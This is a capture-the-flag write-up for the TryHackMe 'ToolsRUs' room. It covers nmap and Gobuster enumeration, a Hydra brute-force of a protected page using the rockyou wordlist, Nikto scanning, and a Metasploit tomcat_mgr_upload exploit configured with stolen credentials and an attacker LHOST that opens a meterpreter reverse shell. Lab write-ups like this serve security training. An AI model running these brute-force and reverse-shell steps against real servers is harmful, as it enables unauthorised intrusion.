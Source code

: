 ```yaml
---
description: A write-up for TryHackMe Room ToolsRUs
---
```


# ToolsRUs



<div data-full-width="false"><figure><img src=".gitbook/assets/image (5).png" alt="" width="375"><figcaption></figcaption></figure></div>



## Recon

Like any other room we'll start with a simple **nmap** scan.

```
nmap -sS -Pn toolsrus.thm
```

<figure><img src=".gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

Lets enumerate a little more using nmap again to find out more about what's running on those ports.

```
nmap -sV -sC -p80,1234,8009,22 toolsrus.thm
```

<figure><img src=".gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

From our nmap scan we can see 4 ports open, 22 for **SSH,** 80 for **HTTP** (Webserver), 1234 for **Apache TomCat**, and 8009 for **ajp13**.&#x20;

Lets check out the website and see if we can find anything there.

<figure><img src=".gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>



All we get is a header hinting that there may be other subdomains that are up.

Lets do a Gobuster directory bruteforce to find them.

```
gobuster dir -u http://toolsrus.thm -w /usr/share/wordlists/dirb/common.txt -x php,html,txt,git,env,sql,zip,tgz,pem,key -t 400

```

<figure><img src=".gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

You can see we get a lot of results with **Status: 403** meaning we don't have access to them except for **/guidelines** which is also the answer to our first flag.

```
Hey <b>bob</b>, did you update that TomCat server?
```

Visiting **http://toolsrus.thm/guidelines** we find which is the answer to our second flag asking us whose name we find and it is **bob**.

For our 3rd flag we can take a look at the only webpage with a **Status: 401** meaning its: **protected**.

Taking a look at that protected page I think we can use hydra here. After some research this is the command we have to use.

```
hydra -f -vV -l bob -P /usr/share/wordlists/rockyou.txt $toolsrus.thm http-get /protected
```

\
After 5 seconds and CPU utilization peaking at a whooping 20% we get our password **bubbles**.

<figure><img src=".gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

After getting into **/protected** we find that the page has moved to another port, after trying a couple times, **1234** is what worked.

Here we find **Apache Tomcat/7.0.88.**

Lets run Gobuster again but on this port.

<figure><img src=".gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

Now lets use Nikto.

```
nikto -host http://toolsrus.thm:1234/manager/html
```

<figure><img src=".gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

As you can see the server is using **Apache/Coyote/1.1** and there's **5** documentations found by Nikto which is more than enough to find an exploit with Metasploit.

```
msf console
search tomcat type:exploit
```

I used Metasploit to look for an exploit and after doing some [research](https://charlesreid1.com/wiki/Metasploitable/Apache/Tomcat_and_Coyote#Uploading_Java_Executable_with_Metasploit) online we need to use **tomcat\_mgr\_upload**.

<figure><img src=".gitbook/assets/image (24).png" alt=""><figcaption></figcaption></figure>

```
exploit/multi/http/tomcat_mgr_upload
info
```

We can use these 2 commands to select the exploit and understand the payload.

<figure><img src=".gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>

Let's set up the arguments we need.

```
set RHOSTS <YOUR_TARGET_IP>
set RPORT 1234
set HttpUsername bob
set HttpPassword bubbles
set LHOST <YOUR_ATTACKER_IP>
set LPORT 5771
set TARGET 0
```

Since it's an Apache server we need to set our target to 0 for Java.

Nice! Now we have a meterpreter reverse shell running let's see who we are and our permissions and get our flag!

<figure><img src=".gitbook/assets/image (26).png" alt=""><figcaption></figcaption></figure>

Overall this was a super fun room to do and wasn't much of a challenge the Nikto search took awhile but I just went and made some coffee while it did it's thing.

